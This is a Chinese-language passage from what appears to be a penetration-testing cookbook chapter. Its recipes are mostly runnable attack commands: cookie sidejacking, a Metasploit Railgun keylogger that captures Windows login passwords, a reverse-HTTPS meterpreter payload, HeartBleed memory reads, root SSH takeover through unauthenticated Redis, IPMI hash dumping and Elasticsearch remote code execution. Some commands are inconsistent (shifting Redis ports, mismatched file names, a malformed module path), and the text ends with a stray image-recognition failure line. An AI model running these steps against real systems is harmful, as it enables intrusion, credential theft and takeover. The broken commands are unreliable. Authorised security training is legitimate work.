# 第五章：当前利用的网络利用

在本章中，我们将涵盖以下教程：

+   仓鼠和雪貂的中间人

+   探索 msfconsole

+   使用偏执的 meterpreter

+   一个流血的故事

+   Redis 利用

+   对 SQL 说不-拥有 MongoDB

+   嵌入式设备黑客

+   Elasticsearch 利用

+   老牌的 Wireshark

+   这就是斯巴达！

# 介绍

利用网络通常是一个很有用的技术。很多时候，我们可能会发现企业中最脆弱的地方就在网络本身。在这个教程中，您将了解一些我们可以对网络进行渗透测试并成功利用我们发现的服务的方法。

# 仓鼠和雪貂的中间人

仓鼠是一个用于侧面劫持的工具。它充当代理服务器，而雪貂用于在网络中嗅探 cookie。在这个教程中，我们将看看如何劫持一些会话！

# 做好准备

Kali 已经预装了这个工具，让我们看看如何运行它！

# 如何做...

仓鼠非常容易使用，也带有用户界面。按照给定的步骤学习仓鼠的使用：

1.  我们开始输入以下命令：

```
 hamster
```

以下屏幕截图显示了上述命令的输出：



1.  现在我们只需要启动浏览器，然后导航到`http://localhost:1234`：


1.  接下来，我们需要点击“适配器”，并选择我们想要监视的接口：


1.  我们将等待一会儿，然后在左侧选项卡中看到会话：


如果几分钟后您没有看到会话，可能是因为仓鼠和雪貂不在同一个文件夹中。仓鼠在后台运行并执行雪貂。

一些用户可能会遇到问题，因为雪貂不支持 64 位架构。我们需要添加一个 32 位存储库，然后安装雪貂。可以使用以下命令完成：`dpkg --add-architecture i386 && apt-get update && apt-get install ferret-sidejack:i386`。

# 探索 msfconsole

在前几章中，我们已经介绍了 Metasploit 的一些基础知识。在这个教程中，您将学习一些使用 meterpreter 和 Metasploit 进行更有效利用的技术。

# 如何做...

要了解 Metasploit，请按照以下步骤操作：

1.  让我们启动 Metasploit 控制台，输入`msfconsole`：



1.  要查看可用的利用列表，我们使用以下命令：

```
 show exploits
```

以下屏幕截图显示了上述命令的输出：


1.  同样地，为了查看有效载荷列表，我们使用以下命令：

```
 show payloads
```

以下屏幕截图显示了上述命令的输出：



1.  Metasploit 还配备了数百个辅助模块，其中包含扫描器、模糊器、嗅探器等。要查看辅助模块，我们使用以下命令：

```
 show auxiliary
```

以下屏幕截图显示了上述命令的输出：



1.  让我们使用以下命令进行 FTP 模糊测试：

```
 use auxiliary/fuzzers/ftp/ftp_client_ftp
```

1.  我们将使用以下命令查看选项：

```
 show options
```

1.  我们使用以下命令设置 RHOSTS：

```
 set RHOSTS  x.x.x.x
```

1.  现在我们运行辅助程序，以便在发生崩溃时通知我们：


# Metasploit 中的 Railgun

在这个教程中，我们将更多地了解 Railgun。Railgun 是一个仅限于 Windows 利用的 meterpreter 功能。它允许直接与 Windows API 通信。

# 如何做...

Railgun 允许我们执行 Metasploit 无法执行的许多任务，例如按键等。使用它，我们可以使用 Windows API 调用执行我们需要的所有操作，以获得更好的后期利用：

1.  我们已经在前面的章节中看到了如何获取 meterpreter 会话。我们可以通过输入`irb`命令从 meterpreter 跳转到 Railgun：


1.  要访问 Railgun，我们使用`session.railgun`命令：


我们看到打印了很多数据。这些基本上是可用的 DLL 和函数。

1.  为了更好地查看 DLL 名称，我们输入以下命令：

```
 session.railgun.known_dll_names
```

以下截图显示了前面命令的输出：


1.  要查看`.dll`的函数，我们使用以下命令：

```
 session.railgun.<dllname>.functions
```

以下截图显示了前面命令的输出：


1.  让我们尝试调用一个 API，它将锁定受害者的屏幕。我们可以通过输入以下命令来实现：

```
 client.railgun.user32.LockWorkStation()
```

我们可以看到我们被锁定了：



1.  让我们想象一个情况，我们想要获取用户的登录密码。我们有哈希，但我们无法破解它。使用 Railgun，我们可以调用 Windows API 来锁定屏幕，然后在后台运行键盘记录器，这样当用户登录时，我们就会得到密码。Metasploit 已经有一个使用 Railgun 来执行此操作的后渗透模块；让我们试试吧！

我们退出我们的`irb`，将我们的 meterpreter 会话放在后台，然后我们使用模块：

```
 use post/windows/capture/lockout,keylogger
```

以下截图显示了前面命令的输出：


1.  我们使用`set session`命令添加我们的会话。

1.  然后，在这里设置`winlogon.exe`的 PID：

```
 set PID <winlogon pid>
```

1.  接下来，我们运行，我们可以看到用户输入的密码：


# 还有更多...

这只是一个我们看到的函数调用的示例。我们可以使用 Railgun 执行许多其他操作，比如删除管理员用户，插入注册表，创建我们自己的 DLL 等等。

有关更多信息，请访问：

[`www.defcon.org/images/defcon-20/dc-20-presentations/Maloney/DEFCON-20-Maloney-Railgun.pdf`](https://www.defcon.org/images/defcon-20/dc-20-presentations/Maloney/DEFCON-20-Maloney-Railgun.pdf)。

# 使用偏执的 meterpreter

在 2015 年的某个时候，黑客意识到可以通过简单地玩弄受害者的 DNS 并启动自己的处理程序来窃取/劫持某人的 meterpreter 会话。然后，这导致了 meterpreter 偏执模式的开发和发布。他们引入了一个 API，验证了两端由 msf 呈现的证书的 SHA1 哈希。在本教程中，我们将看到如何使用偏执模式。

# 如何做到...

我们需要一个 SSL 证书来开始：

1.  我们可以使用以下命令生成我们自己的：

```
 openssl req -new -newkey rsa:4096 -days 365 -nodes -x509
        -keyout meterpreter.key -out meterpreter.crt
```

以下截图显示了前面命令的输出：


我们填写信息，如国家代码和其他信息：

```
 cat meterpreter.key meterpreter.crt > meterpreter.pem
```

1.  前面的命令基本上打开了两个文件，然后将它们写入一个文件。然后我们使用我们生成的证书来生成一个载荷：

```
 msfvenom -p windows/meterpreter/reverse_winhttps LHOST=IP
        LPORT=443 HandlerSSLCert=meterpreter.pem
        StagerVerifySSLCert=true
        -f exe -o payload.exe
```

以下截图显示了前面命令的输出：


1.  要设置选项，我们使用以下命令：

```
 set HandlerSSLCert /path/to/pem_file
 set StagerVerifySSLCert true
```

以下截图显示了前面命令的示例：


1.  现在我们运行我们的处理程序，我们可以看到分段程序验证了与处理程序的连接，然后建立了连接：


# 还有更多...

我们可以通过在使用`-PayloadUUIDName=`开关生成载荷时提及我们自己的 UUID，将其提升到更高级别。使用这个，即使另一个攻击者可以访问我们的证书，他们也无法劫持我们的会话，因为 UUID 不匹配。

# 一个流血的故事

HeartBleed 是 OpenSSL 密码学中的一个漏洞，据说是在 2012 年引入的，并在 2014 年公开披露。这是一个缓冲区超读漏洞，允许读取的数据比允许的数据更多。

在这个教程中，您将学习如何利用 Metasploit 的辅助模块来利用 HeartBleed。

# 如何做...

要了解 HeartBleed，请按照以下步骤进行：

1.  我们通过输入此命令启动`msfconsole`：

```
 msfconsole
```

以下屏幕截图显示了上述命令的输出：


1.  然后，我们使用以下命令搜索 HeartBleed 辅助工具：

```
 search heartbleed
```

以下屏幕截图显示了上述命令的输出：


1.  接下来，我们使用以下命令使用辅助工具：

```
 use auxiliary/scanner/ssl/openssl_heartbleed
```

1.  然后我们使用以下命令查看选项：

```
 show options
```

以下屏幕截图显示了上述命令的输出：



1.  现在我们使用以下命令将 RHOSTS 设置为我们的目标 IP：

```
 set RHOSTS x.x.x.x
```

1.  然后，我们使用此命令将详细程度设置为`true`：

```
 set verbose true
```

1.  然后我们输入`run`，现在我们应该看到数据。这些数据通常包含敏感信息，如密码、电子邮件 ID 等：



# Redis 利用

有时在渗透测试时，我们可能会遇到无意间留下的公共 Redis 安装。在未经身份验证的 Redis 安装中，最简单的事情就是写入随机文件。在这个教程中，我们将看到如何获取运行时没有身份验证的 Redis 安装的根访问权限。

# 如何做...

要了解 Redis 的利用，请按照以下步骤进行：

1.  我们首先 telnet 到服务器，检查是否可能建立成功的连接：

```
 telnet x.x.x.x 6379
```

以下屏幕截图显示了上述命令的输出：


1.  然后我们终止 telnet 会话。接下来，我们使用以下命令生成我们的 SSH 密钥：

```
 ssh-keygen -t rsa -C youremail@example.com
```

1.  然后，我们输入要保存的文件：


1.  我们的密钥已生成；现在我们需要将它写入服务器：


1.  我们需要安装`redis-cli`；我们可以使用以下命令：

```
 sudo apt-get install redis-tools
```

1.  安装完成后，我们回到我们生成的密钥，并在我们的密钥之前和之后添加一些随机数据：

```
 (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```

`key.txt`文件是我们的新密钥文件，带有新行：


1.  现在我们需要用我们自己的密钥替换数据库中的密钥。所以我们使用这个命令连接到主机：

```
 redis-cli -h x.x.x.x
```

1.  接下来，我们使用以下命令刷新密钥：

```
        redis-cli -h x.x.x.x -p 6350 flushall
```

以下屏幕截图显示了上述命令的输出：


1.  现在我们需要将我们的密钥设置到数据库中。我们使用以下命令来做到这一点：

```
 cat redis.txt | redis-cli –h x.x.x.x –p 6451 -x set bb 
```

1.  完成后，我们需要将上传的密钥复制到`.ssh`文件夹中；首先，我们使用此命令检查当前文件夹：

```
 config get dir
```

1.  现在我们将目录更改为`/root/.ssh/`：

```
 config set dir /root/.ssh/
```

1.  接下来，我们使用`set dbfilename "authorized_keys"`更改文件名，并使用 save 保存：



1.  现在让我们尝试 SSH 进入服务器。我们看到我们是 root：



# 对 SQL 说不-拥有 MongoDB

MongoDB 是一个免费的开源跨平台数据库程序。它使用类似 JSON 的带模式的文档。MongoDB 的默认安全配置允许任何人在未经身份验证的情况下访问数据。在这个教程中，我们将看到如何利用这个漏洞。

# 准备工作

MongoDB 默认在端口`27017`上运行。要访问 MongoDB，我们需要下载并安装 MongoDB 客户端。有多个客户端可用；我们将使用 Studio-3T，可以从[`studio3t.com/.`](https://studio3t.com/.)下载。

# 如何做...

按照以下步骤学习：

1.  安装完成后，我们打开应用程序并选择连接。

1.  在打开的窗口中，我们点击新连接：


1.  然后，我们选择一个名称，在服务器字段中输入 IP 地址，然后单击保存：


1.  接下来，我们只需从列表中选择我们刚刚添加的数据库，然后单击连接。成功连接后，数据库名称将显示在左侧，数据将显示在右侧。

# 嵌入式设备黑客

**智能平台管理接口**（**IPMI**）是一种技术，可以让管理员几乎完全控制远程部署的服务器。

在渗透测试时，IPMI 可能在大多数公司中找到。在这个示例中，我们将看到如何发现 IPMI 设备中的漏洞。

# 如何做...

要了解 IPMI，请按照给定的步骤进行：

1.  我们启动 Metasploit：



1.  我们使用以下命令搜索与 IPMI 相关的利用：

```
 search ipmi
```

以下截图显示了上述命令的输出：


1.  我们将使用**IPMI 2.0 RAKP 远程 SHA1 密码哈希检索**漏洞；我们选择辅助工具。还有多个利用，例如 CIPHER Zero，也可以尝试：

```
 use auxiliary/scanner/ipmi/ipmi_dumphashes
```

1.  接下来，为了查看选项，我们输入以下内容：

```
 show options
```

以下截图显示了上述命令的输出：


1.  在这里，我们看到辅助工具自动尝试破解检索到的哈希。

我们设置 RHOSTS 并运行。成功利用后，我们将看到检索和破解的哈希：


# Elasticsearch 利用

有时在进行渗透测试时，我们可能还会遇到一些在各种端口号上运行的服务。我们将在这个示例中介绍这样的服务。Elasticsearch 是一个基于 Java 的开源搜索企业引擎。它可以用于实时搜索任何类型的文档。

2015 年，Elasticsearch 出现了一个 RCE 利用漏洞，允许黑客绕过沙箱并执行远程命令。让我们看看如何做到这一点。

# 如何做...

以下步骤演示了 Elasticsearch 的利用：

1.  Elasticsearch 的默认端口是`9200`。我们启动 Metasploit 控制台：


1.  我们使用以下命令搜索 Elasticsearch 利用漏洞：

```
 search elasticsearch
```

以下截图显示了上述命令的输出：


1.  我们在这种情况下选择利用：

```
 use exploit/multi/elasticsearch/search_groovy_script
```

以下截图显示了上述命令的输出：


1.  我们使用`set RHOST x.x.x.x`命令设置 RHOST：


1.  我们运行以下命令：

```
 run
```

1.  我们的 meterpreter 会话已准备就绪。


# 另请参阅

+   *探索 msfconsole*示例

# 老牌的 Wireshark

Wireshark 是世界上最常用的网络协议分析器。它是免费和开源的。它主要用于网络故障排除和分析。在这个示例中，您将学习一些关于 Wireshark 的基本知识，以及我们如何使用它来分析网络流量，以找出实际通过我们的网络流动的信息。

# 准备好

Kali 已经预先安装了该工具，让我们看看如何运行它！

# 如何做...

以下步骤演示了 Wireshark 的使用：

1.  可以使用`Wireshark`命令打开 Wireshark：



1.  我们选择要捕获流量的接口：



1.  然后，我们单击开始。显示过滤器用于在捕获网络流量时查看一般的数据包过滤。例如：`tcp.port eq 80` 如下截图所示：


1.  应用过滤器将仅显示端口`80`上的流量。如果我们只想查看来自特定 IP 的请求，我们选择该请求，然后右键单击它。

1.  然后，我们导航到“应用为过滤器|已选择”：


1.  然后我们看到过滤器已经应用：


1.  有时，我们可能想要查看两个主机之间在 TCP 级别发生的通信。跟踪 TCP 流是一个功能，它允许我们查看从 A 到 B 和从 B 到 A 的所有流量。让我们尝试使用它。从菜单中，我们选择 Statistics，然后点击 Conversations：



1.  在打开的窗口中，我们切换到 TCP 选项卡。在这里，我们可以看到 IP 列表以及它们之间传输的数据包。要查看 TCP 流，我们选择其中一个 IP，然后点击 Follow Stream：


1.  在这里，我们可以看到通过 TCP 传输的数据：


1.  捕获过滤器用于捕获特定于所应用过滤器的流量；例如，如果我们只想捕获来自特定主机的数据，我们使用主机`x.x.x.x`。

1.  要应用捕获过滤器，我们点击 Capture Options，在打开的新窗口中，我们将看到一个名为 Capture Options 的字段。在这里，我们可以输入我们的过滤器：



1.  假设我们正在调查网络中对 HeartBleed 的利用。我们可以使用以下捕获过滤器来确定是否已利用 HeartBleed：

```
 tcp src port 443 and (tcp[((tcp[12] & 0xF0) >> 4 ) * 4] = 0x18)
        and (tcp[((tcp[12] & 0xF0) >> 4 ) * 4 + 1] = 0x03) and
        (tcp[((tcp[12] & 0xF0) >> 4 ) * 4 + 2] < 0x04) and
        ((ip[2:2] - 4 * (ip[0] & 0x0F) - 4 * ((tcp[12] & 0xF0) >> 4) > 69))
```

# 还有更多...

以下是一些有用的链接，它们包含了 Wireshark 中所有过滤器的列表。在进行深入的数据包分析时，这些过滤器可能会派上用场：

+   [`wiki.wireshark.org/CaptureFilters`](https://wiki.wireshark.org/CaptureFilters)

+   [`wiki.wireshark.org/FrontPage`](https://wiki.wireshark.org/FrontPage)

# 这就是斯巴达！

Sparta 是一个基于 GUI 的 Python 工具，对基础设施进行渗透测试非常有用。它有助于扫描和枚举。我们甚至可以在这里导入 nmap 输出。Sparta 非常易于使用，自动化了许多信息收集工作，并使整个过程更加简单。在这个教程中，您将学习如何使用该工具对网络进行各种扫描。

# 准备就绪

Kali 已经预先安装了该工具，所以让我们看看如何运行它！

# 如何做...

要了解有关 Sparta 的更多信息，请按照给定的步骤操作：

1.  我们首先输入`Sparta`命令：



我们将看到工具打开。

1.  现在我们点击菜单窗格的左侧以添加主机：


1.  在窗口中，我们输入要扫描的 IP 范围。

1.  一旦我们点击 Add to scope，它会自动开始运行 nmap、nikto 等基本过程：


1.  我们可以在左侧窗格上看到发现的主机：


1.  在右侧的 Services 选项卡中，我们将看到开放的端口以及它们正在运行的服务：



1.  切换到 Nikto 选项卡，我们将看到为我们选择的主机显示的 Nikto 输出：



1.  我们还可以看到在主机上运行端口`80`的页面的屏幕截图：


1.  对于诸如 FTP 之类的服务，它会自动运行诸如 Hydra 之类的工具来暴力破解登录：



1.  在左侧窗格上，切换到 Tools 选项卡，我们可以看到每个主机的输出。

1.  我们还可以通过切换到 Brute 选项卡来执行自定义暴力破解攻击：


1.  要运行完整的端口扫描或独角兽扫描，我们可以右键单击主机。转到 Portscan 菜单，然后选择我们要在主机上运行的扫描类型：

抱歉，我无法识别图片中的文本。
